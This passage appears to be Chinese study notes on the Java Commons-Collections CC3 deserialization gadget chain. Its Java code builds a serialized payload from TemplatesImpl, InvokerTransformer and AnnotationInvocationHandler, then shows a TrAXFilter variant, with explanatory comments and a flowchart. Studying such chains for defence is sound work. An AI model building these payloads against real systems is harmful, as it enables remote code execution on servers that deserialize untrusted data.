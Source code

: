 ```java
        bycodesfiled.set(templates,codes);
        Field tfactoryfield = tc.getDeclaredField("_tfactory");
        tfactoryfield.setAccessible(true);
        tfactoryfield.set(templates,new TransformerFactoryImpl());
        //templates.newTransformer();
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer",null,null)

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        //chainedTransformer.transform(114514);
        Map innermap = new HashMap();
        innermap.put("value", "xxx");
        Map outmap = TransformedMap.decorate(innermap, null, chainedTransformer);
        //通过反射获得AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        //通过反射获得cls的构造函数
        Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
        //这里需要设置Accessible为true，否则序列化失败
        ctor.setAccessible(true);
        //通过newInstance()方法实例化对象
        InvocationHandler handler = (InvocationHandler)ctor.newInstance(Retention.class, outmap);
        Map mapproxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),LazyMap.class.getInterfaces(),handler);
        Object instance = ctor.newInstance(Retention.class,mapproxy);

        payload2File(instance,"obj");
        payloadTest("obj");

    }
}

```
## 流程图
![](https://cdn.nlark.com/yuque/0/2023/jpeg/34502958/1684068748820-dd22fbe6-c47c-456d-b3f0-5ecc7efad883.jpeg)
# cc3之TrAXFilter
```java
InstantiateTransformer instantiateTransformer =  new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates});
        instantiateTransformer.transform(TrAXFilter.class);
```
```java
InstantiateTransformer instantiateTransformer =  new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates});
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),instantiateTransformer

        };

```
